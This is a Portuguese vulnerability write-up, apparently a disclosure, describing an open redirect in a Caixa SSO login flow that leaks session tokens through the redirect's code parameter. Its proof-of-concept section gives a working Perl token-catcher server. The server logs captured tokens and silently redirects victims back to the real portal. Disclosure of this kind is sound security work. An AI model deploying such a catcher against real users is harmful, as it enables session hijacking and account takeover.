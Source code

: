 Para validar essa possibilidade, o valor do parâmetro &redirect_uri= na URL original foi alterado para o endereço da página inicial do Google. Por fim, ao preencher as credenciais válidas e realizar o login, é obtido o seguinte resultado:

<iframe width="100%" height="523" src="https://www.youtube.com/embed/d6EXPMQPcZw" frameborder="0" allow="accelerometer; autoplay; encrypted-media; gyroscope; picture-in-picture"></iframe>

-

Como demonstrado, a aplicação possui uma vulnerabilidade de Open Redirect. No entanto, há outro detalhe: durante o redirecionamento, um parâmetro adicional foi enviado, como pode ser observado na URL:

[https://google.com/?code=e629bd01-00cd-4b67-8f5d-f7fc50c2a9c7](https://google.com/?code=e629bd01-00cd-4b67-8f5d-f7fc50c2a9c7)

Após uma análise do parâmetro ?code= e da requisição original, foi possível validar que o valor desse parâmetro corresponde a um Token de Sessão[2].

Com essa conclusão, tornou-se evidente que essa vulnerabilidade possui uma alta criticidade, pois o usuário poderia ser vítima de um ataque, onde ocorre um redirecionamento para uma URL maliciosa na qual um atacante possui controle total e então realiza a captura do Token de Sessão. Ao fazer isso, o atacante obtém acesso à conta do usuário, violando a confidencialidade e a integridade de seus dados.

---

### Prova de conceito

Para comprovar a possibilidade do vazamento e captura do token, o seguinte código foi utilizado:

```perl
#!/usr/bin/env perl
# perl catcher.pl daemon -m production -l http://\*:8080

use 5.030;
use strict;
use warnings;
use Mojolicious::Lite -signatures;

get "/" => sub ($catcher) {
    $catcher -> res -> headers -> header("Access-Control-Allow-Origin" => "*");

    my $code = $catcher -> param("code");

    open (my $logs, ">>", "catcher.logs");
    print $logs "[+] - New Session Token -> '$code' has been catch.\n";
    close ($logs);

    return ($catcher -> render (
        text => "
            <script>window.location='https://acessoseguro.sso.caixa.gov.br/portal/login/?code=$code'</script>
        "
    ));

};

app -> start();
```
